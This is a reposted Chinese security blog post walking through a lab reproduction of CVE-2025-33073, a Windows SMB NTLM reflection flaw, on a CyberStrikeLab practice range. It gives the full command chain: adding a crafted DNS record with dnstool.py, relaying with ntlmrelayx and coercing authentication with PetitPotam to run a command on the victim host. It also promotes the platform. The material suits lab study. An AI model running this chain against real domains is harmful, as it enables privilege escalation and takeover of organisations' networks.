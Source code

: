 > **原文链接**: https://mp.weixin.qq.com/s?__biz=Mzg5MDc1MjY5Ng==&mid=2247493030&idx=1&sn=52d68896765ce5a16a09e99d394507b2

#  CVE-2025-33073：域内大杀器（附复现环境）  
cslab  红蓝公鸡队   2025-06-19 10:08  
  
## 漏洞背景  
  
2025年6月10日，微软发布了每月例行的安全补丁更新。在此次更新中，编号为CVE-2025-33073的严重漏洞引起了业界广泛的关注和重视。微软官方对该漏洞的描述为SMB客户端特权提升漏洞。然而，经过深入分析发现，该漏洞的威胁程度远远超出了普通意义上的“权限提升”范畴。  
> 该漏洞存在于Windows SMB中，由于访问控制不当，具有普通域用户权限的攻击者可以通过添加恶意的DNS记录并强制域内计算机(域控除外)进行解析来获取域内所有用户的权限，从而达到提权的目的。  
  
  
![](https://mmecoa.qpic.cn/mmecoa_png/ybSkegBMogOKOgt3icj361uZ7OYRnWpe5qicBZPD0J0Xibegicb7XKoSkdZmRcIB0zxocWWe9aCicDxYa7GfvLftUAA/640?wx_fmt=png&from=appmsg "")  
  
## 环境搭建  
  
**目前CyberStrikeLab仿真平台已支持漏洞复现，现在访问即可限时免费轻松复现~**  
  
**靶机地址：https://www.cyberstrikelab.com/#/scene/detail/42**  
- 攻击机器kali：10.6.6.10   （  
所有需要用到的工具均已集成在机器中）  
  
- 受害机器：10.6.6.88(CS.cyberstrikelab.com)  
  
- DC：10.6.6.55 (DC.cyberstrikelab.com)  
  
## 复现步骤  
### 1.打开平台，点击开启仿真环境靶机  
  
地址：https://www.cyberstrikelab.com/#/scene/detail/42  
  
![](https://mmecoa.qpic.cn/mmecoa_png/ybSkegBMogOKOgt3icj361uZ7OYRnWpe5fa2y4MKwAmwD13UI5XXicFqDNK4WaFumqtWm6ZxTIkxs2TCFpducnbw/640?wx_fmt=png&from=appmsg "")  
  
### 2.开启后下载openvpn配置文件并连接openvpn  
  
  
![](https://mmecoa.qpic.cn/mmecoa_png/ybSkegBMogOKOgt3icj361uZ7OYRnWpe5sMFRfpkc8PYko4421RX39Yde8icnUqrOfC7RTPoFU0gv6Nx4lB8EYYQ/640?wx_fmt=png&from=appmsg "")  
  
### 3.使用ssh工具连接攻击机器kali  
  
  
![](https://mmecoa.qpic.cn/mmecoa_png/ybSkegBMogOKOgt3icj361uZ7OYRnWpe5H7JmCGMbjRw3uwX33hbGv5WedgsiaOib0XCphXFbwwKrgKQEsqh8OaicQ/640?wx_fmt=png&from=appmsg "")  
  
### 4.添加一条DNS记录  

```
python3 dnstool.py -u cyberstrikelab.com\\cslab -p &#34;cs1ab@wwe&#34; -r CS1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA -d 10.6.6.10 --action add 10.6.6.55
```

  
  
![](https://mmecoa.qpic.cn/mmecoa_png/ybSkegBMogOKOgt3icj361uZ7OYRnWpe5JoHk8rR8YEClfMoBzWCwMAGflnAIWNZL6BCndPMyBQ4wjSkURmp6EA/640?wx_fmt=png&from=appmsg "")  
  
### 5.启动监听  

```
python3 ntlmrelayx.py -t 10.6.6.88 -smb2support -ts -c whoami
```

  
  
![](https://mmecoa.qpic.cn/mmecoa_png/ybSkegBMogOKOgt3icj361uZ7OYRnWpe5DW7R1287iaQgAREqF8QibHNIc7biccm7O23whBJDqlC9sva2nx1clQGoQ/640?wx_fmt=png&from=appmsg "")  
  
### 6.进行强制NTLM认证  

```
python3 PetitPotam.py -d cyberstrikelab.com -u cslab -p cs1ab@wwe CS1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA 10.6.6.88
```

  
  
![](https://mmecoa.qpic.cn/mmecoa_png/ybSkegBMogOKOgt3icj361uZ7OYRnWpe5VAEe529CnjWWWuf39TctX2etyDJ8hES2icVnibPibSljFZHfGJlBVVLEA/640?wx_fmt=png&from=appmsg "")  
  
### 7.回显命令  
  
  
![](https://mmecoa.qpic.cn/mmecoa_png/ybSkegBMogOKOgt3icj361uZ7OYRnWpe59pwUCkHyJaB0PO2fCoLshad2RHr3iaETFiaQBSYVfYSYGLwv9k84YNKg/640?wx_fmt=png&from=appmsg "")  
  
当然这里我们也给大家准备了flag，大家可以在平台上提交  
## 限时福利  
1. 72小时免费开启  
  
1. 转发本推文朋友圈集10个赞，发送截图至公众号后台兑换24小时高级会员，有效期本周内  
  
关注下方公众号，不定期领取各种福利  
  
  
